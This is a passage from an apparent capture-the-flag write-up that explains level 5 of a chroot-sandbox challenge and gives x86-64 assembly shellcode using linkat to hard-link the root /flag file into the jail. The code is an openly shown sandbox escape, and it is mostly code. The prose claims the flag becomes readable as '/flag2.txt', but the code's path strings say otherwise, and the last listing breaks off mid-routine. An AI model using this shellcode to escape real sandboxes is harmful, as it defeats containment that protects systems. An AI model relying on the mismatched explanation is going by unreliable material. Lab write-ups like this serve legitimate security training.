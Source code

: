 ```

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```

&nbsp;

## level 5
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "linkat", "open", "read", "write", "sendfile"

We can no longer use `openat`, but now we are allowed to use `linkat`.

It takes five arguments.
```
int linkat(int olddirfd, const char *oldpath, int newdirfd, const char *newpath, int flags);
```
A hard link is an entry that associate a name with a file. 

Using `linkat` we ca create a hard link in `/tmp/jail/` that points to the `/flag` file in root `/` directory.

This allows us to access `/flag` inside of `/tmp/jail/` using a different name.
```
# Linkat syscall
mov rdi, 3
lea rsi, [rip + old_path]
mov rdx, 4
lea r10, [rip + new_path]
mov r8, 0
mov rax, 0x109
syscall

old_path: 
.string "flag"

new_path: 
.string "/flag"
```
Note that `linkat` returns a value of 0 on success.

Now we can access `/flag` using `/flag2.txt`.

```
.global _start
.intel_syntax noprefix

_start:
	# Linkat syscall
	mov rdi, 3
	lea rsi, [rip + old_path]
	mov rdx, 4
	lea r10, [rip + new_path]
	mov r8, 0
	mov rax, 0x109
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
```